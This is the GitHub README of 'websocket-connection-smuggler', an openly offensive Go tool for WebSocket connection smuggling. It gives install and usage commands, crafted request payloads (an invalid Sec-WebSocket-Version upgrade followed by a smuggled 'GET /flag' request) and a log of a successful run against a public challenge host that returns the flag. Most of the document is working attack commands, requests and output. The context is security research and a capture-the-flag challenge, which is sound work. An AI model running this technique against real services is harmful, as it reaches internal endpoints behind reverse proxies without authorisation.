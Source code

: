 # websocket-connection-smuggler
## Dependency
```cassandraql
$ go get -u github.com/c-bata/go-prompt
```

## Install 
```cassandraql
$ go get github.com/hahwul/websocket-connection-smuggler
```

or 

```cassandraql
$ git clone https://github.com/hahwul/websocket-connection-smuggler
$ cd websocket-connection-smuggler
$ go build
$ ./websocket-connection-smuggler
```

## Usage
### 1. run wcs(websocket-connection-smuggler)
```cassandraql
$ websocket-connection-smuggler
```

### 2. set target address(domain or ip address)
```cassandraql
$ WCS(...) > set target {your target}
```

### 3. is SSL? (default is false)
```cassandraql
# HTTPS
$ WCS(...) > set ssl true

# HTTP
$ WCS(...) > set ssl false
```

### 4. set original request(o_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set o_data
```

e.g
```cassandraql
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

```

### 5. set smuggling reqeust(s_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set s_data
```

e.g
```cassandraql
GET /flag HTTP/1.1 
Host: localhost:5000

```

## Test to 0ang3el Websocket Smuggling Challenge
```

             ___          
            /   \\        
       /\\ | . . \\       
     ////\\|     ||       
   ////   \\ ___//\       
  ///      \\      \      
 ///       |\\      |     
//         | \\  \   \    
/          |  \\  \   \   
           |   \\ /   /   
           |    \/   /    
            ---------
     WebSocket Connection Smuggler
     by @hahwul

WCS(target=>None | ssl=>false ) > set target challenge.0ang3el.tk:80
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set o_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set s_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > send
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

2019/11/30 03:39:15 HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 49
Date: Fri, 29 Nov 2019 18:39:15 GMT

{"flag": "In 50VI37 rUS5I4 vODK@ DRiNKs YOu!!!"}
gth: 119
Date: Fri, 29 Nov 2019 18:39:14 GMT

        �0{"pingInterval":25000,"pingTimeout":60000,"upgrades":["websocket"],"sid":"5148720e07f240a99e6aa7457f41686f"}�40
```

## Reference
- https://speakerdeck.com/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis
- https://www.hahwul.com/2019/10/websocket-connection-smuggling.html
- https://github.com/hahwul/websocket-connection-smuggling-go